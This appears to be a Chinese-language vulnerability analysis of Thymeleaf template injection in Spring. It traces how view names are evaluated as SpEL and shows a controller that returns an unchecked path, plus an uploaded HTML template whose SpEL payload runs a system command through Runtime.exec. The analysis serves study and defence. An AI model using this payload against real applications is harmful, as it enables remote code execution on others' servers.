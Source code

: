 ```java
                throw new IllegalArgumentException("Invalid template name specification: '" + viewTemplateName + "'");
            } 
            
            FragmentExpression.ExecutedFragmentExpression fragment = FragmentExpression.createExecutedFragmentExpression((IExpressionContext)context, fragmentExpression);
            
            templateName = FragmentExpression.resolveTemplateName(fragment);
            markupSelectors = FragmentExpression.resolveFragments(fragment);
            Map<String, Object> nameFragmentParameters = fragment.getFragmentParameters();
            
            if (nameFragmentParameters != null) {
                
                if (fragment.hasSyntheticParameters())
                {
                    
                    throw new IllegalArgumentException("Parameters in a view specification must be named (non-synthetic): '" + viewTemplateName + "'");
                }

                context.setVariables(nameFragmentParameters);
            } 
        } 
        
       ...
	 }
```

可以发现，这里将模板名称(`viewTemplateName`) 进行拼接 `"~{" + viewTemplateName + "}"`，然后使用`parseExpression`进行解析，继续跟进`parseExpression`就可以发现会对传入的参数进行预处理，最终使用SpEL执行表达式。

所以我们直接令`language`参数的值为一个我们指定的SpEL表达式，就可以实现 RCE：

![[Pasted image 20211110211919.png]]

那么如果我们假设存在一个可以上传非 jsp 类型文件的漏洞，并且上传的位置可控，控制器的逻辑如下：

```java
@GetMapping("/test")  
public String test(@RequestParam String path) {  
    return "/" + path;  
}
```

因此就可能发生以下情况：

将`test.html`上传到模板文件夹`template`根目录下：
`test.html`内容如下：
```html
<!DOCTYPE html>  
<html lang="en" xmlns="http://www.w3.org/1999/xhtml"  
 xmlns:th="http://www.thymeleaf.org">  
<head>  
    <title>Hello World!</title>  
</head>  
<body>  
<h1 th:inline="text">Hello</h1>  
<p th:text="@{__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream()).next()}__}"></p>  
</body>  
</html>
```
